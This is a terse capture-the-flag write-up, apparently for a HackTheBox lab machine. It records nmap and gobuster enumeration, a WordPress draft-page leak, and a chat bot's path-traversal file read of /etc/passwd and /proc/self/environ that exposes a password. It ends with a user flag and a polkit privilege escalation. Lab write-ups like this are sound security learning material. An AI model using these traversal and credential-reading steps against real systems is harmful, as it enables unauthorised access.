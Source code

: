 # Enumeration
## Nmap
```bash
nmap -sC -sV -oA nmap/paper 10.10.11.143

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 1005ea5056a600cb1c9c93df5f83e064 (RSA)
|   256 588c821cc6632a83875c2f2b4f4dc379 (ECDSA)
|_  256 3178afd13bc42e9d604eeb5d03eca022 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
|_http-title: HTTP Server Test Page powered by CentOS
|_ssl-date: TLS randomness does not represent time
```

## Port 443
HTTP test page.

gobuster time.

```
gobuster dir -u http://10.10.11.143 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

Didn't find anything useful.

burp shows a header for `office.paper`

# Wordpress
version 5.2.3
```bash
wpscan --url http://office.paper/ -e ap --plugins-detection aggressive
```

5.2.3 lets you see draft pages:
```
?static=1
```

Found a link:
```
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

Logging in shows a bot that has an lfi
```
recyclops file ../../../../../etc/passwd
```

getting /proc/self/eniron shows a pwd:
```
Queenofblad3s!23
```

# Shell as dwight
user.txt
```
4c3e375eadae72adf41d806c1ab15205
```

linpeas.sh -> polkit -> root
